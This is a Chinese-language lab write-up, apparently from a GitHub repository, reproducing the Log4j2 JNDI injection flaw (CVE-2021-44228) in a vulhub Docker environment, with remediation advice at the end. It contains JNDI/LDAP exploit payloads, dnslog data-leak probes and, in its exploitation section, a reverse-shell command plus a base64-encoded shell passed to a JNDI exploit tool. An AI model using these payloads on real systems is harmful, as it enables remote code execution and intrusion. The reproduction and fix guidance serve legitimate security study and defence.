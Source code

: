 # Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

### 1.1、漏洞描述

Log4j2默认支持解析ldap/rmi协议（只要打印的日志中包括ldap/rmi协议即可），并会通过名称从ldap服务端获取对应的Class文件，使用ClassLoader在本地加载Ldap服务端返回的Class类。这就为攻击者提供了攻击途径，攻击者可以在界面传入一个包含恶意内容（会提供一个恶意的Class文件）的ldap协议内容（如：恶意内容${jndi:ldap://localhost:9999/Test}恶意内容），该内容传递到后端被log4j2打印出来，就会触发恶意的Class的加载执行（可执行任意后台指令），从而达到攻击的目的。
```java
javaCopy Codeimport org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jExample {
    // 获取Logger对象，参数为当前类名
    private static final Logger logger = LogManager.getLogger(Log4jExample.class);

    public static void main(String[] args) {
        // 示例日志输出
        logger.trace("Trace 级别日志");
        logger.debug("Debug 级别日志");
        logger.info("Info 级别日志");
        logger.warn("Warn 级别日志");
        logger.error("Error 级别日志");
        logger.fatal("Fatal 级别日志");
    }
}
```

${}这是一个表达式，我们可以利用表达是输出用户信息，当前时间等。

重要的是运用表达式我们就可以使用jndi协议了，例如${jndi:ldap://localhost:9999/Test} ，利用jndi请求地址为//localhost:9999的ldap服务，查找内容Test。

你怎么说//localhost:9999是一个ladp的服务呢！也许人家就是一个普通的地址呢！没错这里客户端也没法判定，也是在请求完之后判定的，这里输入dns的地址会解析吗？会，可以利用这个特点打下dnslog请求，初步确定漏洞。  

### 1.2、漏洞原理

[【精选】Log4j2注入漏洞(CVE-2021-44228)万字深度剖析(二)—漏洞原理_log4j2漏洞-CSDN博客](https://blog.csdn.net/hilaryfrank/article/details/121939902)

### 1.3、漏洞等级

高

### 1.4、影响版本

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/log4j/CVE-2021-44228

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8983/solr/admin/cores?action=`即可看到

![image-20240409211005986](./imgs/image-20240409211005986.png)

![image-20240409211043184](./imgs/image-20240409211043184.png)



#### 2、漏洞验证

payload准备

```
${jndi:ldap://n2ii2r.dnslog.cn}
```

![image-20240409211423275](./imgs/image-20240409211423275.png)

查看dnslog平台解析记录

![image-20240409211401028](./imgs/image-20240409211401028.png)

payload插入表达式

```
${jndi:ldap://${sys:java.version}.n2ii2r.dnslog.cn}
```

![image-20240409211601179](./imgs/image-20240409211601179.png)

![image-20240409211635749](./imgs/image-20240409211635749.png)

### 1.6、深度利用

#### 1、反弹Shell

工具梭哈~

直接用JNDI注入工具`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`或`JNDIExploit-1.4-SNAPSHOT.jar`，可以在github上搜一下

> 使用方式：
> java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]

先执行如下命令，并base64编码

```bash
bash -i >& /dev/tcp/192.168.43.147/4567 0>&1
```

![image-20240409220715708](./imgs/image-20240409220715708.png)

nc监听 

```bash
 nc -lnvp 4567
```

![image-20240409214802041](./imgs/image-20240409214802041.png)

编码后的命令通过`-C`参数输入JNDI工具，通过通过`-A`参数指定攻击机的ip地址：

```bash
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjE0Ny80NTY3IDA+JjE=} | {base64,-d}|{bash,-i}" -A "192.168.43.147"
```



### 1.7、修复建议

**官方方案**：

将Log4j框架升级到2.15.0版本， 不要用2.15.0-rc1和2.15.0-rc2
**临时方案：**

1、升级JDK

2、修改log4j配置

2.1、设置参数：

```
log4j2.formatMsgNoLookups=True
```

2.2、修改jvm参数：

```
-Dlog4j2.formatMsgNoLookups=true
```

2.3、系统环境变量：

```
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS设置为true
```

2.4、禁止log4j2所在的服务器外连

使用安全产品防护：WAF、RASP

### 1.8、参考

- https://blog.csdn.net/weixin_50892961/article/details/135446028
- [Log4j2注入漏洞(CVE-2021-44228)万字深度剖析](https://blog.csdn.net/hilaryfrank/article/details/121939902)
- [bilibili【面试必问】Log4j漏洞复现及原理刨析，简单易懂](https://www.bilibili.com/video/BV1fT411P7Tu/?vd_source=7cb54e8da5c4e85dd5ca576825dc1c86)